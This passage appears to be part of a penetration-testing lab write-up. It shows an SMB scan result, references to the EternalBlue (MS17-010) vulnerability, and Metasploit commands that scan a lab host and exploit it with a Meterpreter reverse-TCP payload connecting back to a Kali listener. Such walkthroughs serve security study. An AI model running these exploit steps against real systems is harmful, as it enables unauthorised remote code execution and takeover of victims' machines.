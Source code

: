 ```bash
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

TRACEROUTE
HOP RTT     ADDRESS
1   0.68 ms 192.168.31.132
```

### Exploit MS17-010

> [CVE-2017-0144 - MS17-010](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0144)
>
> [Microsoft Windows 7/2008 R2 - 'EternalBlue' SMB Remote Code Execution (MS17-010) - Windows remote Exploit](https://www.exploit-db.com/exploits/42031)
>
> [MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption](https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/)

**Metasploit**

```bash
msfconsole

search eternalblue
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS 192.168.31.132
run
```

```bash
[+] 192.168.31.132:445 - Host is likely VULNERABLE to MS17-010! - Windows 7 Ultimate 7601 Service Pack 1 x64 (64-bit)
```

```bash
use exploit/windows/smb/ms17_010_eternalblue
options
set RHOSTS 192.168.31.132
check
# Same as auxiliary/scanner/smb/smb_ms17_010 module
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.31.131 # Listening HOST/Kali
run
```
